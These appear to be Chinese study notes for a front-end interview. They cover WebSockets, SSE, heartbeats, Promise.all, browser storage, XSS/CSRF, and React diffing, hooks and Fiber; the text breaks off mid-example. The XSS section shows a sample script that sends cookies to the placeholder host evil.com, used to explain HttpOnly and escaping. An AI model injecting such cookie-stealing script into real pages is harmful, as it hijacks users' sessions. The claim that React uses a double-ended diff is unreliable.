




## 字节一面

### Web Socket 和sse 区别

- WebSocket 是一种在浏览器和服务器之间建立“长连接”的协议，可以实现双向实时通信。
- 项目需求分析
    chat-app 是聊天应用， 需求
    - 实时收消息
    - 实时发消息
    - 多人同步
    如果用http:
    - 客户端只能“请求 → 响应”
    - 想实时?
        只能轮询（性能差）
        定时setInterval 
    - 而 WebSocket：
    - 一次连接，持续通信(双工)
    - 服务端可以“主动推送”

    
    WebScoket socket 协议在web端的实现

    
    HTTP和WebSocket都跑在TCP上。HTTP是请求响应，WebSocket是长连接，能双向实时通信，适合聊天、推送这类场景。

    QQ Wechat 用的就是Socket 协议
    WebScoket 是Socket的Web 版本

- 面试官为什么要靠这个问题？
    - 前端比较熟悉的是http 协议， 跨协议，408（数据结构、计算机组成原理、操作系统和计算机网络）考察
    - sse ai 应用开发的核心体验
    SSE 轻量单向，专为服务端推送设计，更简单适配。
    - websocket 适合实时通信
    WebSocket 是全双工协议，需自定义协议、心跳、重连，复杂度高；

- 项目 2025_chun/html5/chat-app
- 跨域的解决方案
    interview/2025_chun/js/cors/postmessage-demo/index.html
    https://github.com/shunwuyu/ai_lesson/tree/e5414505c45bb06a78e76c4521e83d22f7385e24/interview/2025_chun/js/cors

    https://github.com/shunwuyu/ai_lesson/blob/e5414505c45bb06a78e76c4521e83d22f7385e24/js/cross_domain/jsonp/1.html#L11  jsonp 
    https://github.com/shunwuyu/ai_lesson/tree/e5414505c45bb06a78e76c4521e83d22f7385e24/js/cross_domain/demo 
    cors
    https://github.com/shunwuyu/ai_lesson/blob/e5414505c45bb06a78e76c4521e83d22f7385e24/js/cross_domain/cors-demo/server.js cors 预检请求

    https://github.com/shunwuyu/ai_lesson/blob/e5414505c45bb06a78e76c4521e83d22f7385e24/interview/2025_chun/js/cors/readme.md

### 介绍心跳机制

心跳机制就是：客户端和服务端定期互相“报平安”，用来检测连接是否还活着。

用生活类比

就像两个异地恋人打电话📞：

如果很久没声音，你会说一句：“喂？还在吗？”
对方回一句：“在的”
👉 这就是“心跳”

为什么需要心跳
因为 WebSocket / SSE 是长连接

- 网络可能断了
- 用户可能掉线
- 中间设备（Nginx、负载均衡）可能会自动断开空闲连接（省资源， 服务更多人）
所以必须主动检测连接状态

- 心跳机制怎么实现？
    ping / pong 只是约定俗成的名字，不是规定，你想叫什么都行！
    - 客户端发（最常见）
    ```
    setInterval(() => {
        ws.send(JSON.stringify({ type: 'ping' }))
    }, 30000)
    ```
    服务端收到
    ```
    if (msg.type === 'ping') {
        ws.send(JSON.stringify({ type: 'pong' }))
    }
    ```
    - 认为连接断了
    - 触发重连

- 方式二：服务端发
    - 服务端定期 ping
    - 客户端回 pong
    多用于：
    - 即时通讯（IM）
    - 游戏服务器

- 心跳机制一般包含 3 步：

    - 定时发送 ping
    - 接收 pong 响应
    - 超时判断 + 重连机制
- SSE 的心跳怎么做（很多人答不上来）
    SSE 没有内置 ping/pong
    一般这样做：
    res.write(': heartbeat\n\n')
    或者定期推一条空数据
    作用：

    防止连接被中间代理断开
    保持活跃

最后总结（收尾）

👉 心跳机制的本质：

检测连接是否存活
防止“假连接”
配合重连机制保证实时通信稳定

- 重连代码
```
let ws
let timer
let retry = 0

function connect() {
  ws = new WebSocket('ws://localhost:8080')

  ws.onopen = () => {
    retry = 0
    heartbeat()
  }

  ws.onmessage = (e) => {
    const msg = JSON.parse(e.data)
    if (msg.type === 'pong') resetHeartbeat()
  }

  ws.onclose = reconnect
  ws.onerror = reconnect
}

function reconnect() {
  clearInterval(timer)
  setTimeout(connect, Math.min(1000 * 2 ** retry++, 10000))
}

function heartbeat() {
  timer = setInterval(() => {
    ws.send(JSON.stringify({ type: 'ping' }))
  }, 3000)
}

function resetHeartbeat() {
  clearInterval(timer)
  heartbeat()
}

connect()
```
### SSE 客户端和服务端应该怎么设置?

- 场景举例

后端（NestJS @Sse 装饰路由）
- 使用 rxjs 将 llm stream 包装成 Observable 流，
- 通过async generator 异步生成器，配合yield逐次返回文本片段，结合循环持续处理 AI 流与工具调用，实现不间断流式输出。

前端通过 EventSource 监听 SSE 流，实时接收后端推送的 chunk 并追加渲染，实现文字逐字显示的流式输出。
    - 接收sse 的url
    - onmessage

- 除了  EventSource（SSE），还可以使用 原生 fetch + ReadableStream
直接读取流式响应，兼容性强

https://github.com/shunwuyu/ai_lesson/blob/35ef50f402c1299a268a19526aa1eadc32961278/html5/sse/sse-demo/react-event-source/src/App.jsx

- Sse 接口和 res.write原生手动写 HTTP 响应流 区别
@Sse 是标准的 SSE 长连接推送协议，自带格式、自动重连、浏览器原生支持。
res.write 只是原生 HTTP 流写入，没有协议、没有重连、完全手动控制。

- SSE http头怎么设置？
    Content-Type: text/event-stream 告诉浏览器这是 SSE 流式数据，不是普通 HTTP 响应 
    Cache-Control: no-cache 
    防止中间代理/浏览器缓存，保证数据是实时的
    Connection: keep-alive
    http 1.1 HTTP 长连接 + 文本流格式
    保持 TCP 长连接不断开
    Transfer-Encoding: chunked
    启用分块传输，让数据可以一段一段实时推送

    NestJS 的 @Sse 已经默认帮我们设置好了这些头，但如果走 Nginx，还需要关闭 proxy_buffering，否则数据会被缓存导致不实时。


- 和大模型对话的 completion 接口介绍一下。你有什么参数传入了 Completion 接口？为什么用 open AI 原生的 sdk 调用接口？

    - 面试官心态
    考察你对大模型接口原理、参数调优理解，以及工程实践能力（SDK使用、稳定性与封装设计）。

    - completion 接口是大模型的核心对话接口，用来接收用户 prompt 并返回生成文本。即AIGC 核心功能， 除了completion 外， 还有chat Completion 接口，需要传递messages 对话数组， Embeddings接口负责 向量生成， 多模态模型还有image\audio\vision 接口， 上传相应的多媒体文件就好


    - 基础参数
    ```
    {
    model: "gpt-4o-mini",
    messages: [
        { role: "system", content: "你是一个前端专家" },
        { role: "user", content: "解释闭包" }
    ]
    }
    ```
    生成控制（体现理解深度🔥）
    temperature  取值范围是 0 ~ 2，常用 0 ~ 1。
    值越低（0~0.3）：越严谨、固定、确定性高
    值越高（0.7~2）：越随机、创意强、发散性高

    max_tokens 👉 限制输出长度 控制响应长度、避免冗余并节省 token 成本
    stream: true 流式输出
    tools / function calling 让模型调用函数
    返回多少条结果 用参数n

    - 为什么用 OpenAI 原生 SDK

    OpenAI 官方 SDK 是业内通用标准方案，封装完善、兼容性强、迭代及时，使用它能降低接入成本、提升稳定性，也更符合行业最佳实践。

    - 我在拍照记单词项目中 使用了KIMI 图片解析 + 火山引擎tts 
    - 我在nestjs 全栈项目中使用了@langchain/openai 来快速开发llm 应用

### 手撕Promise.all

先说思路

Promise.all 的核心是：并发执行多个 Promise，全部成功才返回结果，只要有一个失败就立即 reject。

实现上我会做三件事：

用数组按顺序收集每个 Promise 的结果
用计数器记录完成数量
任意一个失败就直接 reject，全部成功才 resolve”

同时需要处理非 Promise 值，用 Promise.resolve 包一层

```
Promise.myAll = function (promises) {
  return new Promise((resolve, reject) => {
    const result = []
    let count = 0

    if (promises.length === 0) {
      return resolve([])
    }

    promises.forEach((p, index) => {
      Promise.resolve(p).then(res => {
        result[index] = res
        count++

        if (count === promises.length) {
          resolve(result)
        }
      }).catch(reject)
    })
  })
}
Promise.resolve(p) 
把数组里的每一项 包装成一个标准 Promise 对象
如果本身就是 Promise， 完全无害，会直接返回这个原 Promise 本身
```

```
Promise.myResolve = function(value) {
  // 如果已经是 Promise 实例，直接返回它自己
  if (value instanceof Promise) {
    return value;
  }

  // 如果是 thenable 对象（有 then 方法），包装成标准 Promise
  if (value && typeof value.then === 'function') {
    return new Promise((resolve, reject) => {
      value.then(resolve, reject);
    });
  }

  // 普通值：直接返回一个 已成功(resolved) 的 Promise
  return new Promise(resolve => resolve(value));
};
```

### cookie, sessionStorage, localStorage

- 共性
“cookie、localStorage、sessionStorage 本质都是浏览器端的存储方案，用于在客户端保存数据，实现状态持久化。”

    - 都是键值对存储
    - 都遵循同源策略
    - 都只能存字符串（需手动 JSON 序列化）
    - 都用于保存用户状态（登录态、配置、缓存等）

- 区别
    - Cookie（偏服务端协作）Cookie = 唯一能“自动带到服务端”的存储
    Cookie 容量受限（通常4KB），过大会增加带宽消耗与解析延迟，降低请求性能。建议仅存会话ID，大数据存服务端。
    
    

    客户端先登录，服务器创建会话、把用户信息存起来并生成 session ID 返回给浏览器；之后每次请求都带上这个 ID，服务器收到后用它去数据库或缓存里“捞出”对应的用户对象，验证身份合法后才返回资源。本质是：ID 是钥匙，换来的是完整的用户数据。

    - cookie-login-demo
    - XSS ? http-only 怎么防？
    Cross-Site Scripting（跨站脚本攻击） CSS 避讳
    “XSS（跨站脚本攻击）的本质是：攻击者把恶意 JavaScript 注入到页面里，在用户浏览器中执行。”

    举个例子
    比如评论区没有做过滤，用户输入
    <script>
    fetch('https://evil.com?cookie=' + document.cookie)
    </script>
    当别人打开页面时，这段脚本就会执行，把用户的 cookie 发送给攻击者。”

    “常见危害就是：

    窃取 cookie（劫持登录态）
    冒充用户发请求
    篡改页面内容”

    二、HttpOnly 怎么防 XSS

    “HttpOnly 是加在 Cookie 上的一个属性，它的作用是：
    👉 禁止 JavaScript 读取 Cookie（document.cookie 拿不到）”

    “即使攻击者注入了脚本：

document.cookie

👉 也拿不到带 HttpOnly 的 cookie

这样就防止了最常见的登录态窃取。”

    不过 HttpOnly 只能防止读取 cookie，并不能阻止 XSS 本身执行。

    完整防御思路（拉开差距🔥）

    👉
    “所以实际项目中我会组合多种手段：

    输入过滤 / 输出转义（最根本）
    const clean = input.replace(/[<>"'&]/g, s => ({
    '<': '&lt;',
    '>': '&gt;',
    '"': '&quot;',
    "'": '&#39;',
    '&': '&amp;'
    }[s]))
    <script></script> 会变成
    &lt;script&gt;&lt;/script&gt;
    HttpOnly Cookie 防止敏感信息被读取
    避免使用 innerHTML，改用安全 API”
    el.textContent = userInput

2. localStorage（长期存储）
永久存储（除非手动删除）
不会自动发送给服务器
容量大（≈5MB）
多 tab 共享

localStorage = 持久化配置/缓存

界面主题/购物车临时存储/表单草稿自动保存/JWT/用户行为埋点缓冲：将用户的点击、浏览等行为数据先暂存本地，积攒一定数量后批量上报，降低网络请求频率。/离线数据缓存 商品分类列表 汽车之家名牌

3. sessionStorage（会话级存储）

- 关闭 tab 就清除
- 不同 tab 不共享（重点！）
- 不自动发送给服务器

sessionStorage = 会话级临时状态

页面滚动位置恢复   丛首页到详情页， 再返回， 回到首页的位置
多步骤流程（如支付/注册） 分步骤表单（step1 → step2 → step3） 避免中途刷新丢流程

三、核心区别（面试一定要总结）
特性	Cookie	localStorage	sessionStorage
生命周期	可设置	永久	关闭 tab 清除
是否发给服务器	✅ 自动发送	❌	❌
容量	小（4KB）	大（5MB）	大（5MB）
跨 tab	✅	✅	❌
安全性	可 HttpOnly	❌	❌

CSRF（跨站请求伪造）是指攻击者诱导已登录用户在不知情的情况下发起请求，从而以用户身份执行操作的攻击方式。
比如用户已登录银行网站，此时访问了一个恶意页面，页面中隐藏了一段代码：


👉 浏览器会自动携带用户的 Cookie 发起请求，服务器误以为是用户本人操作，从而完成转账。

CSRF 防御本质：让“伪造请求”无法通过身份校验

CSRF Token（最核心 ⭐）

👉 服务端生成随机 token，下发给前端页面，因同源策略限制，恶意网站无法读取受害者域名下的响应头或页面内容，故无法获取该令牌。
```
<!-- HTML 部分 -->
<head>
  <meta name="csrf-token" content="a1b2c3d4-e5f6-7890-g1h2-i3j4k5l6m7n8">
</head>

<!-- JavaScript 部分 (以原生 JS 为例) -->
<script>
  // 1. 获取 Token
  const token = document.querySelector('meta[name="csrf-token"]').getAttribute('content');

  // 2. 在请求中使用 (例如使用 fetch)
  fetch('/api/transfer', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json',
      'X-CSRF-Token': token  // 放入自定义请求头
    },
    body: JSON.stringify({ amount: 100 })
  });
</script>
```

fetch('/api/transfer', {
  method: 'POST',
  headers: {
    'X-CSRF-Token': token
  }
})

👉 服务端校验 token 是否匹配

SameSite Cookie

👉 限制 Cookie 跨站携带

Set-Cookie: session=abc; SameSite=Strict
Strict 👉 完全禁止跨站发送
Lax 👉 部分允许（默认）

验证 Referer / Origin
👉 判断请求来源是否合法


- 为什么现在登陆不用cookie, 而用localStorage + token？
    传统 Cookie + Session 方案需要在服务端存储会话数据（内存/Redis），在分布式场景下必须做会话共享，增加系统复杂度和运维成本；同时 Cookie 会自动随请求发送，容易遭受 CSRF 攻击且跨域受限。相比之下，localStorage + token（如 JWT）由前端手动放在 Authorization 头中，服务端无需存储状态，天然适合分布式和微服务架构，扩展性更好，也更灵活可控；再结合 HttpOnly Cookie 或刷新 token 机制，可以进一步提升安全性。

- cookie 为什么比localStorage更安全？
    Cookie 可以设置 HttpOnly、Secure、SameSite 等属性，能禁止 JS 读取、防止 XSS 窃取，并限制跨站请求，安全控制更细；而 localStorage 完全暴露在 JS 环境中，一旦发生 XSS 攻击，数据很容易被直接获取，因此整体安全性不如 Cookie。
    所以双token

    JWT 的流行
    因为它更适应现代应用架构。其无状态、跨域和跨平台的特性，完美解决了分布式系统和前后端分离带来的挑战。


### 浏览器解析页面全过程
    浏览器渲染进程在 render 阶段会先把 HTML 解析成 DOM 树，同时解析 CSS 生成 CSSOM，然后合并成渲染树；接着进行布局（计算每个元素位置和大小），最后进行绘制（paint）, GPU 进程负责把这些绘制指令进行栅格化 + 合成（composite），最终显示到屏幕.

    栅格化就是把“绘制指令”变成一块块像素图片（砌墙），方便 GPU 快速贴到屏幕上显示。

    渲染引擎负责算怎么画，GPU 负责真正把它画出来并合成上屏。

    - render 阶段html做了什么？
    HTML 在 render 阶段会被解析成 DOM 树，而且是流式解析（一边读取 HTML 字节流，一边逐步生成 DOM 节点，不是等全部解析完才一次性构建。），过程中遇到 script 可能阻塞并修改 DOM，同时为后续生成渲染树做准备

### react中遍历数组，key有什么作用。

- 开门见山
key 的本质作用：帮 React 在 diff 过程中“识别节点身份”，提高复用能力，避免错误更新。

React 在更新 UI 的时候，并不是整个 DOM 全部重新渲染，而是做一个“新旧虚拟 DOM 的对比（diff）”，然后只更新变化的部分。

如果是一个数组，比如列表渲染，React 怎么知道哪个元素是“原来的那个”，哪个是“新加的”？

key 就是“身份证”

有 key：React 知道谁是谁，可以复用节点
没 key 或乱用 key：React 只能“猜”，可能会误删误建


1. diff算法原则一
只比较同一层的节点
如果节点的 type 变了（比如 div → span）
👉 React 会直接认为是“两个完全不同的节点”，不会再往下比子节点，直接销毁重建

2. 结合 key 讲
在同一层级里，如果是列表结构，React 会根据 key 来做匹配：
key 相同 → 认为是同一个节点 → 尝试复用
key 不同 → 认为是新节点 → 删除旧的 + 创建新的

3. 简单 diff
旧节点 ABCD → 新节点 DCAB
旧子节点数组：[A, B, C, D]
新子节点数组：[D, C, A, B]

关键规则：按新数组顺序遍历，去旧数组找key 相同的节点，用lastIndex判断是否需要移动。

lastIndex 记录的是：在当前遍历新数组的过程中，所有已复用的节点中，在旧数组里最大的那个下标。
它的设计目标是：通过判断一个可复用节点在旧数组中的位置是否“落后”于之前所有已处理节点的最远位置，来决定它是否需要移动。

分步执行过程

1. 初始化lastIndex = 0（记录上一个复用节点在旧数组的最大下标）
2. 遍历新数组第 1 个节点 D
去旧数组找 key 相同的 D，找到旧下标3
3 > lastIndex(0) → 不用移动
更新lastIndex = 3

3. 遍历新数组第 2 个节点 C
  - 去旧数组找 key 相同的 C，找到旧下标2
  2 < lastIndex(3) → 需要移动
  移动到新数组第 2 位（前一个节点 D 的后面）

4. 遍历新数组第 3 个节点 A
  去旧数组找 key 相同的 A，找到旧下标0
  0 < lastIndex(3) → 需要移动
移动到新数组第 3 位（前一个节点 C 的后面）

5. 遍历新数组第 4 个节点 B
  去旧数组找 key 相同的 B，找到旧下标1
  1 < lastIndex(3) → 需要移动
  移动到新数组第 4 位（前一个节点 A 的后面）

6. 清理旧节点
遍历旧数组，检查节点是否在新数组中存在，无则删除

但你要马上指出问题
这种方式在“插入头部”的时候性能很差

旧：A B C  
新：D A B C

简单来说，算法会执行 3 次移动操作（移动 A、B、C），而理论上其实 不需要移动任何节点，只需要在头部插入 D 即可。

- 双端 diff

React 在实际实现中，并不是简单的从左到右对比，而是做了一个优化 —— 双端 diff（头尾指针）

它会同时从：

新旧列表的头部
新旧列表的尾部
开始往中间收缩

四种情况（不用太死板，讲思路就行）：

会优先判断这几种情况：

新头 vs 旧头
新尾 vs 旧尾
新尾 vs 旧头（节点右移）
新头 vs 旧尾（节点左移）

如果都匹配不上：

就会用 key 建立一个 map，快速查找旧节点的位置，然后决定是移动还是新建


### react中 hooks 是怎么实现的？


“React Hooks 本质是：用一个数组（或链表）按顺序存状态，通过调用顺序来定位每个 hook。”

案例驱动

1. 核心矛盾：函数组件是“失忆”的

普通的 JavaScript 函数，每次调用执行完后，里面的局部变量就全部销毁了。
React 的函数组件本质上就是一个函数。

第 1 次渲染：function App() { let [count, setCount] = useState(0); ... } -> 执行完，count 消失。

第 2 次渲染：用户点击按钮，React 重新调用 App() 函数。此时内存里没有上一次的 count 了，一切从零开始。

问题：既然每次都重来，React 怎么知道上一次 count 是 1 还是 10？怎么知道第二个 useState 对应的是哪个数据？

2. 解决方案：外挂一个“剧本提示卡”（数组）

React 在函数外部（组件实例层级）维护了一个数组（通常叫 hooksList 或 memoizedState）。这个数组不会随着函数执行结束而销毁。

function App() {
  const [name, setName] = useState('Alice');   // 第 1 个 Hook
  const [age, setAge] = useState(18);          // 第 2 个 Hook
  const [job, setJob] = useState('Dev');       // 第 3 个 Hook
}

第一次渲染（初始化）：
React 创建一个空数组：[]
执行到第 1 行 useState：React 往数组推入一个新对象 { state: 'Alice' }。数组变成：[{ state: 'Alice' }]
执行到第 2 行 useState：React 往数组推入 { state: 18 }。数组变成：[{ state: 'Alice' }, { state: 18 }]
执行到第 3 行 useState：React 往数组推入 { state: 'Dev' }。数组变成：[{...}, {...}, {...}]
关键点：此时，name 的值其实是从数组索引 0 拿到的，age 是从索引 1 拿到的。
第二次渲染（用户修改了 age）：
用户触发更新，React 再次调用 App() 函数。
注意：这次不再创建新数组，而是复用上次那个已经存有数据的数组：[{ state: 'Alice' }, { state: 18 }, { state: 'Dev' }]。
执行到第 1 行 useState：React 不推入新数据，而是直接读取数组索引 0 的数据 -> 拿到 'Alice'。
执行到第 2 行 useState：React 读取数组索引 1 的数据 -> 拿到 18。
执行到第 3 行 useState：React 读取数组索引 2 的数据 -> 拿到 'Dev'。
3. 为什么必须是“数组”且依赖“顺序”？
因为函数组件内部没有名字留给 React 识别（数组性能更优， map慢）！
当你写 const [name, setName] = useState(...) 时，变量名 name 只是你代码里的别名，React 运行时看不到 "name" 这个字符串，它只看到调用了 useState 这个函数。
如果没有顺序限制：
React 不知道当前调用的 useState 对应数组里的哪一张“提示卡”。
有了顺序限制：
React 只需要一个指针 cursor。
遇到第 1 个 useState，指针指向 array[0]。
遇到第 2 个 useState，指针指向 array[1]。
只要代码书写顺序不变，指针就能精准找到对应的数据。

- 如果顺序乱了会发生什么？（
假如你在第二次渲染时，因为在中间加了一个 if 判断，导致少执行了一个 useState：

// 错误示范
function App() {
  const [name, setName] = useState('Alice'); // 读 array[0] -> 'Alice' (正常)
  
  if (someCondition) {
     // 假设这里条件变了，这行没执行！
     // const [age, setAge] = useState(18); 
  }
  
  const [job, setJob] = useState('Dev'); // 原本该读 array[2]，但现在它是第 2 个被调用的，所以读了 array[1]!
}

job 变量竟然拿到了 18（原本属于 age 的数据）！类型错乱，程序崩溃。

为什么要数组？ 因为函数局部变量存不住状态，必须存在函数外部的持久化容器里。
为什么要按顺序？ 因为 React 没法给每个 Hook 起名字（变量名运行时不可见），只能靠“第几次调用”作为身份证（索引）去数组里取对应的数据。
这就是为什么 React 规定：Hook 不能在循环、条件判断或嵌套函数中调用。

就好像吃饭店排队叫位一样

### 对fiber 机制的理解？

- fiber 机制
Fiber 是 React16 引入的一套可中断、可恢复的渲染机制，本质是把原来一次性执行的渲染过程，拆成很多小任务，避免长时间阻塞主线程。

Fiber = 可调度的虚拟 DOM

- 虚拟 DOM vs Fiber

    - 虚拟 DOM（简单结构）
    ```
    const vdom = {
        type: 'div',
        props: { children: [...] }
    }
    ```
    将直接操作慢速真实DOM，转为快速内存计算，批量最小化更新。

    - Fiber 节点（重点⭐）
    const fiber = {
        type: 'div',
        stateNode: dom,      // 真实 DOM
        child: null,         // 第一个子节点
        sibling: null,       // 兄弟节点
        return: null,        // 父节点
        alternate: null      // 双缓存（旧 fiber）
    }

    

    你住的老房子（真实 DOM）太慢，每次改个墙色都得拆墙重刷 —— React 说：“别急，我先在纸上画个新布局（虚拟 DOM），算清楚哪几块要动。”
然后它派了个聪明工头叫 Fiber（橙色那串），边画图边能中途停下接电话（可中断渲染），不打扰你睡觉。
等图纸定稿（Render Phase），工头带人冲进去只改需要动的地方（Commit + DOM Update），省时省力。
生命周期就是房子从盖好（Mounting）、翻新（Updating）到拆掉（Unmounting）的全过程；Hooks 是你随时喊“我要加个插座！”的工具包。
整张图就一句话：React 靠“纸面预演 + 智能施工”，让你网页丝滑如德芙。

    

    这张图讲的是 React Fiber 怎么“链表化”树结构：div 是爹，h1 是第一个孩子（child），h2、h3 是 h1 的兄弟（sibling），靠指针串起来。这样遍历不用递归，能随时暂停继续——就像打游戏存档读档，渲染不卡壳！

    fiber 本质 = 链表 + 树（方便中断遍历）

四、Fiber 遍历原理

    “Fiber 用的是深度优先遍历（DFS），但和递归不同，它是可中断的循环。”

    function performUnitOfWork(fiber) {
  // 1. 处理当前节点
  console.log('处理:', fiber.type)

  // 2. 先找子节点
  if (fiber.child) {
    return fiber.child
  }

  // 3. 没子节点 → 找兄弟
  let next = fiber
  while (next) {
    if (next.sibling) {
      return next.sibling
    }
    next = next.return
  }
}

遍历顺序

A
├── B
│   └── D
└── C

A → B → D → C

五、为什么 Fiber 可以中断？（重点🔥）

👉
“因为它是一个 while 循环，每处理一个节点就是一个‘任务单元’”

function workLoop(deadline) {
  // 循环执行条件：
  // 1. nextUnitOfWork: 还有未完成的工作单元（Fiber 节点）
  // 2. deadline.timeRemaining() > 0: 浏览器当前帧还有剩余空闲时间（通常约 5-15ms）
  while (nextUnitOfWork && deadline.timeRemaining() > 0) {
    // 处理当前的 Fiber 节点：
    // - 计算该节点的变更（diff）
    // - 创建子节点或兄弟节点的 Fiber 对象
    // - 返回下一个需要处理的任务单元
    nextUnitOfWork = performUnitOfWork(nextUnitOfWork)
  }

  // 如果时间用完了但任务还没做完（nextUnitOfWork 依然存在）
  if (nextUnitOfWork) {
    // 让出主线程控制权，告诉浏览器：“等下一帧有空闲时，再叫我继续干活”
    // 这样就不会阻塞动画和用户交互，实现“时间切片”
    requestIdleCallback(workLoop)
  }
}

浏览器有空才执行
👉 没空就暂停，下次继续

“Fiber 是 React16 引入的可中断渲染机制，本质是对虚拟 DOM 的增强，每个节点不仅表示 UI，还包含调度信息。它通过 child、sibling、return 组成链表结构，用循环实现深度优先遍历，从而可以拆分任务、支持中断和恢复。这样在大规模更新时不会阻塞主线程，提升用户体验。”

### 手写深度优先
深度优先（DFS）就是：先一路往“最深的子节点”走到底，再回头找兄弟节点继续。
广度优先（BFS）就是：一层一层往下遍历，先把同一层的节点都访问完，再进入下一层。

```
// 深度优先遍历（DFS）- 递归实现
function dfs(node) {
  // 1. 终止条件：节点为空直接返回
  if (!node) return

  // 2. 访问当前节点（先序遍历）
  console.log(node.val)

  // 3. 递归遍历所有子节点（一直往“深处”走）
  node.children?.forEach(child => dfs(child))
}

// 示例树结构
